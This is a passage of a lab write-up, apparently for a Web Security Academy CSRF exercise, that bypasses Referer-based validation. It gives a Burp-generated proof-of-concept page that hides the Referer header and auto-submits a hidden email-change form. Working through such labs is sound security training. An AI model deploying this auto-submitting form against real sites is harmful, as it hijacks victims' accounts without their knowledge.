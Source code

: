 
When opened, it returns this error:



![img](images/CSRF%20where%20Referer%20validation%20depends%20on%20header%20being%20present/4.png)


Adding a line to avoid using the Referer header solves this problem:

```
<meta name="referrer" content="never">
```

```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="https://0a250042033a996983bd0048004f00df.web-security-academy.net/my-account/change-email" method="POST">
      <meta name="referrer" content="never">
      <input type="hidden" name="email" value="test777&#64;test&#46;com" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```



![img](images/CSRF%20where%20Referer%20validation%20depends%20on%20header%20being%20present/5.png)
